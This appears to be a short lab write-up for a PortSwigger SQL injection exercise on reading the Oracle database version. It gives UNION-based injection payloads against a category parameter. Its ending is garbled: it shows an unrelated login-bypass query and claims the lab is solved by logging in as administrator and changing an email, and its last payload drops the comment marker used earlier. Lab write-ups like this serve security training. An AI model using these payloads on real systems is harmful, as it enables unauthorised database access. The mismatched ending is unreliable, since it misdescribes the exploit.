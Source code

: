 # Write-up: SQL injection attack, querying the database type and version on Oracle
Lab-Link: <https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle>  
Difficulty: PRACTITIONER  
 

## Lab description

![alt text](<img/1.png>)

## Steps

### Enumeration

Confirming vulnerability by adding a single quote to the category parameter and getting an error message.

On googling we found out that the table `V$VERSION` contains the database version.

Now, we need to determine the number of columns returned by the query. We can hit and try to find the number of columns returned by the query.

```sql
' UNION SELECT null FROM V$VERSION--
```
Above query returns an error, which means the number of columns is not 1. Now we can try for 2 columns.

```sql
' UNION SELECT null, null FROM V$VERSION--
```
This query returns the page without any error, which means the number of columns is 2.

![alt text](<img/2.png>)

### Exploit

To retrieve the database version, we will use above information and query the database version. The `banner` column contains the database version.

```sql
' UNION SELECT banner, null FROM V$VERSION;
```

The result query should look like
```sql
SELECT * FROM users WHERE username = 'administrator' OR 1=1-- AND password = 'pass'
```

This login me as user administrator and after changing the email to anything solves the lab.

![alt text](img/3.png)